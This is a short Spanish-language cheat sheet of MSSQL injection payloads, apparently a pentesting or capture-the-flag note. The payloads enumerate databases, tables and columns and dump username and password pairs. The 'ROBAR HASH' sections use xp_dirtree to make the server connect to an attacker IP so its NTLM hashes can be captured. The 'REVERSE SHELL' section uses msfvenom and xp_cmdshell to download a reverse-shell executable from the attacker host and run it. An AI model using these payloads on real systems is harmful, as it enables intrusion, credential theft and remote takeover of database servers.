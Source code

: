 
### LISTAR VERSIÓN DEL SISTEMA.
```sql
test' union select 1,@@version,3,4,5,6-- -
```


### LISTAR TODAS LAS BASES DE DATOS.
```sql
test' union select 1,name,3,4,5,6 FROM master..sysdatabases-- -
```


### NOMBRE DE LA BASE DE DATOS (EN USO).
```sql
test' union select 1,(SELECT DB_NAME()),3,4,5,6-- -
```


### LISTAR TODAS LAS TABLAS.
```sql
test' union select 1,name,3,4,5,6 FROM streamio..sysobjects WHERE xtype = 'U';-- - #INDEPENDIENTEMENTE DE EN CUANTAS SE PUEDA ESCRIBIR LO ULTIMO SE TIENE QUE PONER.
```


### ROBAR HASH.
```sql
test'; use master; exec xp_dirtree '\\10.10.16.7\smbFolder\pwned';
```


### LISTAR IDENTIFIACOR DE LAS TABLAS..
```sql
test' union select 1,name,id,4,5,6 FROM streamio..sysobjects WHERE xtype = 'U';-- - #ESTE IDENTIFICADOR ES CRUCIAL A LA HORA DE PODER LISTAR LAS COLUMNAS.
```


### LISTAR TODAS LAS COLUMNAS.
```sql
test' union select 1,name,3,4,5,6 FROM syscolumns WHERE id = 901578250-- - #IGUALAMOS EL ID AL QUE QUERAMOS ENUMERAR.
```


### LISTAR CONTENIDO DE COLUMNAS.
```sql
test' union select 1,concat(username,':',password),3,4,5,6 FROM users-- -
```

### ROBAR HASH
```SQL
sudo responder -I tun0 -wd
';exec master..xp_dirtree '\\192.168.45.192\test';-- - s
```


### REVERSE SHELL
```python
sudo python3 -m http.server 80
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.192 LPORT=443 -f exe -o shell.exe
';exec master..xp_cmdshell 'curl 192.168.45.192/shell.exe -o C:\windows\temp\sfp.exe';-- - s
';exec master..xp_cmdshell 'cmd /c C:\windows\temp\sfp.exe';-- -s
```